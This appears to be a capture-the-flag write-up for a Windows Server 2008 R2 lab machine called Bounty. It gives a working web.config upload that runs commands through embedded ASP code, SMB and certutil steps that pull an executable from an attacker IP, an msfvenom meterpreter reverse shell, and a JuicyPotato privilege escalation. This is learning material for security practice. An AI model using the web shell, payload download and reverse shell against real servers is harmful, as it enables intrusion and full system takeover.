# bounty

`nmap` shows us that only port 80 is open, so lets begin enumerating that

![](../../.gitbook/assets/image%20%288%29%20%281%29.png)

shows us that we have an `aspx` files, and a folder which looks like, if we upload some thing it will go there. So lets upload a web.config with some `aspx` code in the end. This just runs a systeminfo command. I've tried with just `systeminfo` first, but it doesn't work but the below `cmd.exe /c systeminfo` worked

```text
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!--
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
        Set cmd1 = wShell1.Exec("cmd /c systeminfo")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-->
```

now, I'm going to make use of my default commands for doing file upload/download related things on windows

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
copy x:\shell.exe c:\windows\temp\shell.exe
```

once we've run both these commands on the server using the above tactic. Replace the cmd.exe with the above net use command, and after that we can try to just run the reverse shell command with the payload we generate from msfvenom. the systeminfo command gives us the information about the webserver \(omitted unneeded info\)

```text
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Domain:                    WORKGROUP
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

so its a x64 and 2008 R2 server. lets generate the msfvenom payload now,

```text
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4242 -f exe -o shell.exe
```

we can use either a normal reverse shell or meterpreter shell here. I've used meterpreter since I find it a bit easy to manage and has some useful functionality like file upload etc.

```text
certutil -urlcache -split -f http://10.10.14.9/shell.exe shell.exe
```

this is the part where the payload is uploaded into the box using the code execution we got via the web.config. This should work with doing just a normal smb transfer as well. Once we upload the payload and got a call back on our python3 -m http.server 80, we can be sure that our payload is uploaded into the remote server.

now we can change the payload in our web.config file to just execute the shell we have uploaded.

Once we understand whats going on and how to exploit it, its a matter of bunch of commands to exploit this machine which I've summarised below

```text
# to server our payload files
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

# use the remote share - this command to be run in the web.config file
net use x: \\10.10.14.9\kalishare /user:guest guest

# in the web.config, run the shell.exe, this gives us reverse shell as merlin
cmd /c x:\\shell.exe

# get juicypotato.exe into our share
# now that we got a shell, run (also listen on 4242)
# we can use the same shell.exe and listen on same port, since the active session
# is not listening anymore on that port
x:\JuicyPotato.exe -t * -p x:\\shell.exe -l 9001

and we get a root shell
```

![](../../.gitbook/assets/image%20%289%29.png)

